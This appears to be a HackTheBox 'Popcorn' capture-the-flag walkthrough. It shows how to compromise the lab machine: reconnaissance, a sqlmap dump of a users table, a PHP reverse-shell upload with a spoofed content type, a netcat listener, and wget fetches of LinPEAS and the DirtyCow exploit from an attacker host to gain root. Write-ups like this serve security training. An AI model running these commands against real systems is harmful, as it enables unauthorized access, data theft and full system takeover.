




# Popcorn - A HackTheBox machine

## Flag user.txt

### Reconnaissance

```bash
nmap -sC -sV -Pn 10.10.10.6 -p-
```

Result:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3ec81b15211550ec6e63bcc56b807b38 (DSA)
|_  2048 aa1f7921b842f48a38bdb805ef1a074d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### Enumeration


```
dirb http://10.10.10.6 /usr/share/wordlists/dirb/common.txt
```

First result:

```
---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/.bash_history (CODE:200|SIZE:320) 
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)         + http://10.10.10.6/index (CODE:200|SIZE:177)            + http://10.10.10.6/index.html (CODE:200|SIZE:177)       + http://10.10.10.6/server-status (CODE:403|SIZE:291)    + http://10.10.10.6/test (CODE:200|SIZE:47330)           ==> DIRECTORY: http://10.10.10.6/torrent/                
```

Browsing to http://10.10.10.6/.bash_history  you can get how to escalate privileges later on:


Looks like someone exploited a dirty cow vulnerability here. La la la la.

But let's browse the directory http://10.10.10.6/torrent/ 

Browsing around we can identify a login page at http://popcorn.htb/torrent/login.php. This login page is vulnerable to [SQLi](sqli-manual-attack.md). 

We can use [sqlmap](sqlmap.md) to dump users' database: 

```bash
sqlmap --url http://popcorn.htb/torrent/login.php --data="username=lele&password=lalala" -D torrenthoster -T users --dump --batch
```

Here, someone created a user before me:



But since registering is open, we will create our own user to login into the application.

Once you are logged in, browse around. There exist a panel to upload your torrents. 



Play with it. No reverse shell is allowed. But there is also another panel to edit an existing upload:


The screenshot file is not properly sanitized. Try to upload a [pentesmonkey](pentesmonkey.md), but capturing it with Burpsuite. Modify the content-type header to "image/png" and...



Reverse shell is uploaded. Get your netcat listening on port 1234 (or other):

```bash
nc -lnvp 1234
```

Click on button "Image File not Found" and... bingo! You have a shell on your listener.

[Spawn your shell](spawn-a-shell.md).

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


Get user's flag in /home/george/user.txt


## Flag root.txt

From previous user of the machine we know that this machine has probably a dirtycow vulnerability. But we can server from our machine the script [LinPEAS](linpeas.md).

Now in the victim's machine:

```bash
wget http://<attacker IP>/linpeas.sh
chmod +x linpeas.sh
./linpeash.sh
```


Results:

```                                                                                                                          
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                         
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson                                                                

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2010-3904] rds

   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: probable
   Tags: debian=6.0{kernel:2.6.(31|32|34|35)-(1|trunk)-amd64},[ ubuntu=10.10|9.10 ],fedora=13{kernel:2.6.33.3-85.fc13.i686.PAE},ubuntu=10.04{kernel:2.6.32-(21|24)-generic}
   Download URL: http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c

[+] [CVE-2010-3848,CVE-2010-3850,CVE-2010-4073] half_nelson

   Details: https://www.exploit-db.com/exploits/17787/
   Exposure: probable
   Tags: [ ubuntu=(10.04|9.10) ]{kernel:2.6.(31|32)-(14|21)-server}
   Download URL: https://www.exploit-db.com/download/17787

[+] [CVE-2010-1146] reiserfs

   Details: https://jon.oberheide.org/blog/2010/04/10/reiserfs-reiserfs_priv-vulnerability/
   Exposure: probable
   Tags: [ ubuntu=9.10 ]
   Download URL: https://jon.oberheide.org/files/team-edward.py

[+] [CVE-2010-0832] PAM MOTD

   Details: https://www.exploit-db.com/exploits/14339/
   Exposure: probable
   Tags: [ ubuntu=9.10|10.04 ]
   Download URL: https://www.exploit-db.com/download/14339
   Comments: SSH access to non privileged user is needed

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

   Details: https://dylankatz.com/Analysis-of-CVE-2019-18634/
   Exposure: less probable
   Tags: mint=19
   Download URL: https://github.com/saleemrashid/sudo-cve-2019-18634/raw/master/exploit.c
   Comments: sudo configuration requires pwfeedback to be enabled.

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: less probable
   Tags: ubuntu=(14.04|16.04){kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
```


The second dirty cow works just fine: [https://www.exploit-db.com/exploits/40839](https://www.exploit-db.com/exploits/40839)

Serve it from your attacker machine. And from victim's:

```bash
wget http://<atacker machine>/40839.c


# Compile with:
gcc -pthread 40839.c -o dirty -lcrypt

# Then run the newly create binary by either doing:
./dirty
# or
./dirty <my-new-password>
```


Now, sudo su to the given user from the script. And you will be that user (substituting root).


